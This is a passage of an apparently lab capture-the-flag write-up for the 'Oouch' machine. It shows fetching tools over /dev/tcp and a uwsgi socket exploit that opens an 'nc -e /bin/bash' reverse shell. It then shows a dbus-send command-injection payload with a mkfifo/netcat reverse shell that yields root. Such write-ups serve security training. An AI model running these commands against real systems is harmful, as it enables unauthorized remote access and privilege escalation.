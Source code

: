 And download it from the container:

```
$ export RHOST=172.17.0.1
$ export RPORT=12345
$ export LFILE=uwsgi_exp.py
$ bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
$ export LFILE=nc
$ bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
$ chmod +x nc
```

Note: since there is ssh, it was possible to transfer via `scp` too.

Let's exploit now!

On oouch:

```
nc -nlvp 12345
```

In the container:

```
$ python3 uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c "/home/qtc/nc -e /bin/bash 172.17.0.1 12345"
```

Now we obtained a `www-data` shell.

```
$ nc -nlvp 12345
listening on [any] 12345 ...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.3] 47676
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### DBUS Exploitation

- `www-data` can receive and send message from dbus.
- `www-data` owns uwsgi.

It's always better with a PTY.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

We start a listener on oouch machine:

```
$ nc -nlvp 9999
```

Now we can use `dbus-send` to gain a root shell:

```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.cyfun; mkfifo /tmp/.cyfun; cat /tmp/.cyfun | /bin/bash -i 2>&1 | nc 172.17.0.1 9999 >/tmp/.cyfun;"
```
